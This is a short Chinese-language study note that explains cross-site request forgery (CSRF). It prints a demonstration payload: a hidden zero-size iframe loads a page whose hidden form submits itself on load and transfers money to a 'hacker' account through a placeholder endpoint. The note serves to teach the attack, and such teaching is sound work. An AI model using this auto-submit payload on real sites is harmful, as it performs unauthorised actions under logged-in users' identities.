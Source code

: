 ```yaml
---
title: 2-2-2_csrf
date: 2018-05-28 18:56:23
tags:
---
```


## CSRF

### 概念 
全称 : Cross Site Request forgrey 
中文 : 跨站请求伪造

用途 : 执行恶意操作 （“被转账”，发垃圾评论等），制造蠕虫 ...。

利用用户的已登陆身份，用用户的名义在用户不知情的情况下执行非法操作。

### 原理

默认流程:
```
Request URI: xxx/demo/csrf/transfer.php
cookie:xxxxxxxxxxxxxxxx1
Form:  username:json   amout:10
```
恶意代码

```html
<body>
    <iframe src="csrf-attack.php?t-0.3132353463" width=0 height=0> </iframe>
</body>

```

```php
# csrf-attack.php
<body onload="submitForm();">
    <form id="tip" action="xxx/demo/csrf/transfer.php"  method="post">
    <input type="hidden" name="toUser" value="hacker">
    <input type="hidden" name="amount" value="10">
    </form>
</body>

<script>
    function submitForm(){
        document.getElementById("tip").submit();
    }
</script>

```


